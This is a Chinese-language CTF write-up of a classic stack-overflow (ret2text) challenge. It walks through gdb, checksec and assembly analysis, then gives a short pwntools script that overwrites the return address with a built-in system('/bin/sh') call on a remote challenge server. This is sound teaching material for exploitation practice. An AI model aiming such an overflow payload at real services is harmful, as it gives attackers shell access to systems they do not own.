 1. 直接用 gdb 调试![[屏幕截图 2024-04-12 215837.png]]
2. 先用 checksec 查看一下调用了哪些保护![[屏幕截图 2024-04-12 215822.png]]发现只开了 NX 保护
3. `start` 进入 `main` 函数，用汇编语言观察（可以直接用 IDA，但是想要锻炼一下直接看汇编的能力，刚开始是 IDA 和 gdb 对照地看）![[Pasted image 20240412220406.png]]`main` 函数中先调用 `write` 函数，输出响应信息，然后调用 `0x4005a6` 处函数。`0x4005a6` 处函数调用 `read` 函数，且 `read` 的数量为 `0x200`，但是因为 `lea rax, [rbp-0x80]`， 所以 `read` 实际接收到的数量为 `0x88`，剩下的都会作为栈溢出，能被我们利用。想要构成栈溢出，需要填满 `0x80+0x8` 个字节，接下来的内容会覆盖到 `rip` 上，作为接下来的函数地址被调用
4. 发现关键函数 `system`，用 `x\s 0x400684`查看它的参数 `0x400684` 的字符串形式![[Pasted image 20240412220423.png]]发现是字符串 `/bin/sh`，即该处直接调用了函数 `system("/bin/sh")`，只需要将调用该函数的函数地址 `0x400596` 覆盖到 `rip` 上即可
5. 编写脚本
```
from pwn import *
r = remote("61.147.171.105", 54657)
p1 = b'a' * 0x88 + p64(0x400596)
r.sendline(p1)
r.interactive()
```
6. 调试通过，获得 `flag`![[Pasted image 20240412222149.png]]